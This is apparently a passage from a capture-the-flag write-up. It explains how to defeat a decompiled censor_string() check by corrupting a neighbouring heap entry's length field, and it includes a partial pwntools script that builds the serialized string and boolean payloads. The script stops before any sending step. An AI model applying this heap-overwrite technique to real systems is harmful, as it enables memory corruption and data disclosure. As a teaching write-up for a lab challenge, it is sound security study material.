 ```c
void censor_string(char *input,int length)
{
  if ((((5 < length) && (*input == 'C')) && (input[1] == 'T')) &&
     ((input[2] == 'F' && (input[3] == '{')))) {
    memset(input + 4,L'X',(long)(length + -5));
  }
  return;
}
```

Our ultimate goal for this challenge is to use variable expansion to get the flag string and somehow avoid it being censored.
Because of the check in the `censor_string()` function we can do so by first sending a string array and then a boolean array and using the vulnerability we found to change one of the `'CTF{'`-bytes to `0x01`.
Even better, we can overwrite the length short at the start of the data buffer with `0x01` which disables the check in this method and still gives us the whole string because it is printed with `snprintf()` and `%s` ignoring the supposed length.
To consistently place the two allocated heap blocks for the entries at a fixed offset from each other on the stack we can set the same initial buffer size.
This is because heap allocation strategies typically place blocks of the same size together to utilize memory space as best as possible.
See the memory dump below to understand the offset:

![Memory dump of entry structures in fix_corrupt_booleans()]({ubf_memory_dump})

The final solution simply builds such a payload with a working offset and sends the base64-encoded data:

```py
import pwn
import base64

def example_str():
    data = b""

    words = [b"Example", b"$FLAG", b"$MOTD", b"$TEAM"]

    data += pwn.p32(len(words)*2) # initial length
    data += b's' # type
    data += pwn.p16(len(words)) # blocks
    data += pwn.p16(len(words)*2) # raw length of blocks

    for w in words:
        data += pwn.p16(len(w))
    for w in words:
        data += w

    print(data)
    
    return data

def example_bool():
    data = b""

    bools = [True, False]

    data += pwn.p32(len(bools)) # initial length
    data += b'b' # type
    data += pwn.p16(len(bools)) # blocks
    data += pwn.p16(5 & 0xffff) # raw length of blocks

    for b in bools:
        data += b"\\01" if b else b"\\00"
```